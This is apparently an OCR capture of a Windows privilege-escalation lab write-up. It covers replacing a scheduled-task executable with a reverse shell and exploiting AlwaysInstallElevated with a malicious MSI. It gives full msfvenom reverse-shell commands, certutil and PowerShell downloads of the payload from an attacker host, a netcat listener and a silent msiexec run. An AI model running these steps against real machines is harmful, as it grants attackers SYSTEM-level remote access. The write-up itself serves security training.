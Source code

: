 ```
1. I was able to delete `name.EXE` which means we can replace it with a malicious shell. Knowing this we can generate a reverse shell with `msfvenom` and call it `name.EXE`.

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.230 LPORT=21 -f exe > name.EXE
```

2\. The shell was then uploaded with `certutil.exe`.

```
certutil.exe -f -urlcache -split http://192.168.49.230/TFTP.EXE
```

3\. A `netcat` listener was set up on port 21 and after 5 minutes the `TFTP.EXE` was executed as part of the scheduled task and we receive an administrator shell.

```
sudo nc -lvp 21
```

## AlwaysInstallElevated

### Malicious MSI

These registry keys tell windows that a user of any privilege can install `.msi` files are NT AUTHORITY\SYSTEM. All that we need to do is create a malicious `.msi` file, and run it.

We can use `msfvenon` to create the MSI installer. We’ll use a reverse shell payload that I can catch with `nc`:

```bash
wixnic@kali$ msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f msi -o rev.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: rev.msi
```

We’ll upload it just like I did with WinPEAS:

```bash
C:\ProgramData>powershell wget http://10.10.14.6/rev.msi -outfile rev.msi
```

This requests the file from our Python webserver and fetches the MSI.

Now we just need to run it with `msiexec`:

```
C:\ProgramData>msiexec /quiet /qn /i rev.msi
```

This returns nothing, but there’s a shell at our listening `nc`:
